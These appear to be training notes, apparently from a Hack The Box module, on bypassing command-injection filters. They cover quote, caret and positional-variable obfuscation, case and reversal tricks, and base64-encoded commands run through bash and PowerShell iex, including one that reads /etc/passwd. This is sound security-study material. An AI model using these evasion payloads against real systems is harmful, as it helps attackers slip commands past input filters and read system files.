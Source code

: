 
[External Source for Techniques not covered](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)

### Using Obfuscation For Filter Bypass

Obfuscating letters since shell don't recognize (E.g single quotes) [powershell and linux]
```shell-session
w'h'o'am'i
```
(E.g double quotes) [powershell and linux]
```shell-session
w"h"o"am"i
```
using positional character [linux only] 
```bash
who$@ami
```
using positional character [windows cmd]
```cmd-session
who^ami
```
### String Manipulation For Filter Bypass

forcing characters to lowercase (ends up being "whoami" ) [linux]
```shell-session
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

reversing character order [linux]
```shell-session
$(rev<<<'imaohw')
```

reversing character order [powershell]
```powershell-session
"whoami"[-1..-20] -join ''
```

reverse with iex subshell [powershell]
```powershell-session
iex "$('imaohw'[-1..-20] -join '')"
```

### String Encoding for Filter Bypass

Powershell base64 encoding [powershell]
```powershell-session
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```


Using base64 decoding and reverse pipes to bypass pipe filters [Linux]
```shell-session
Auzzie@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==


Auzzie@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

```
**Note: Can be done with hex decoding command " xxd" rather than base64

